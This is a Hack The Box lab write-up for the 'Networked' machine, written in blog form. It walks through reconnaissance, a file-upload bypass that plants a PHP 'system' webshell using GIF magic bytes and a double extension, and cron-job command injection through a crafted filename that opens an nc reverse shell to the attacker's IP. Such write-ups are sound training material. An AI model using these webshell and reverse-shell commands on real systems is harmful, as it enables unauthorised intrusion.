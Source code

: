 ```yaml
---
layout: single
title: Networked - Hack The Box
excerpt: "Networked is an Easy difficulty Linux box vulnerable to file upload bypass, leading to code execution. Due to improper sanitization, a crontab running as the user can be exploited to achieve command execution. The user has privileges to execute a network configuration script, which can be leveraged to execute commands as root."
date: 2025-05-30
classes: wide
header:
  teaser: /img2/networked.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Information Leakage
  - PHP Source Code Analysis
  - Abusing File Upload (AddHandler Exploitation) [RCE]
  - Abusing Cron Job [Command Injection] (User Pivoting)
  - Abusing Sudoers Privilege (Custom Script Exploitation) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.146
```

![](/img2/Pasted%20image%2020250530093957.png)

- Whatweb

```bash
whatweb http://10.10.10.146/
```

![](/img2/Pasted%20image%2020250530094128.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.146/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250530104755.png)

- Download backup.tar

![](/img2/Pasted%20image%2020250530104908.png)

```bash
7z x backup.tar
```

- Check php files

![](/img2/Pasted%20image%2020250530105307.png)

![](/img2/Pasted%20image%2020250530105348.png)

![[Pasted image 20250531134313.png]]

> To bypass this restriction, the last extension need to be ".jpg, .png, .gif, .jpeg" so we can upload doble extension like "test.php.png".  

![](/img2/Pasted%20image%2020250530110305.png)

>We need to upload image file to bypass MIME library. To upload "real" image we need to have image Content-Type and first bytes

```bash
echo '<?php system("whoami")?>' > cmd.php
```

```bash
xxd cmd.php
```

![](/img2/Pasted%20image%2020250530110744.png)

```bash
file cmd.php
```

![](/img2/Pasted%20image%2020250530110919.png)

> To detect file type the MIME library check first bytes, so we need to change it

```bash
echo 'GIF8;\n<?php system("whoami")?>' > cmd.php
```

```bash
xxd cmd.php
```

![](/img2/Pasted%20image%2020250530111042.png)

```bash
file cmd.php
```

![](/img2/Pasted%20image%2020250530111146.png)

> Now, MIME will detect file as GIF

## Exploitation

- Abusing File Upload (Doble extension)

![](/img2/Pasted%20image%2020250530111317.png)

![](/img2/Pasted%20image%2020250530111344.png)

> Usually, apache shouldn´t execute php code in doble extension files, but in this case we can run php code. 

- Send revese shell

![](/img2/Pasted%20image%2020250530111623.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Abusing cron job

```bash
cat /home/guly/crontab.guly
```

![](/img2/Pasted%20image%2020250530132027.png)

- Check check_attack.php 

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

> This script detects new files in /var/www/html/uploads/ and run rm -f FILE, so we can change the name of script to send a reverse shell.

- Pivoting

```bash
touch 'test.txt;nc -c bash 10.10.16.7 9002'
```

```bash
nc -nvlp 9002
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250531140948.png)

```
sudo /usr/local/sbin/changename.sh
```

![](/img2/Pasted%20image%2020250531141424.png)


![](/img2/Pasted%20image%2020250530131751.png)